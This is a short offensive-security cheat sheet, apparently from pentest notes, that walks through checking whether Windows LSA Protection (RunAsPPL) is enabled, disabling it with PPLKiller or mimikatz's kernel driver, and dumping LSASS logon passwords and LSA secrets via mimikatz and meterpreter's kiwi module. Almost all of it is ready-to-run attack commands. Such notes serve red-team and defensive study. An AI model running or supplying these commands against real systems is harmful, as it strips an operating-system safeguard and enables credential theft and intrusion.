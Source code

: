 ### Check if PPL is enabled
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL` - `0x1` means enabled.

### <ins></ins>Disable PPL using PPLKiller></ins>

Make sure the session you are running with has SYSTEM privleges.
We need to upload the driver to the path:
- `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.

Then we will disable PPL: 
- `.\PPLKiller.exe /disablePPL <LSASS PID>`

Now we can use meterpreter mimikatz module to dump the lsass process: 
- `load kiwi` - `creds_all` - `lsa_dump_secrets`

### <ins>Disable PPL using mimikatz</ins>
Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.

Dump logonpasswords: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`

Dump secrets: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "lsadump::secrets" "exit"`

Restore: 
- `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`
